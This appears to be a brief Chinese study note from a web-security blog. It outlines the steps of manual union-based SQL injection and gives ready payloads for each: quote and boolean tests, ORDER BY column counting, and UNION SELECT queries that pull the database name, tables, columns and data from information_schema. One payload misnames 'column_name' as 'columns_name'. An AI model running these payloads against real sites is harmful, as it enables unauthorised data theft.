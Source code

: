 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```


## 0x00 注入过程

1. 找注入点
2. 判断当前查询的字段数
3. 爆出数据库名
4. 爆出数据库表名
5. 爆出字段名
6. 爆数据项

```
1. 测试注入点
' 
' and 1=1
' and 1=2
') and 1=1

2.判断当前查询的字段数
 ' order by 10 # --直到报错为止，若报错，则字段数为前一个

3.爆出数据库名、版本号等
-1' union select 1，2，3，4，5，database(),version(),... //前面的语句不存在

4.爆出数据库表名
-1' union select 1,2，3,4,5，group_concat(table_name),..from information_schema.tables where table_schema =database()#

5.爆出字段名
-1' union select 1,2，3,4,5，group_concat(columns_name),..from information_schema.columns where table_name=(想要查询的表)#

6.爆数据项
-1' union select 1,2,3,4,5,字段名 from 表 #
```

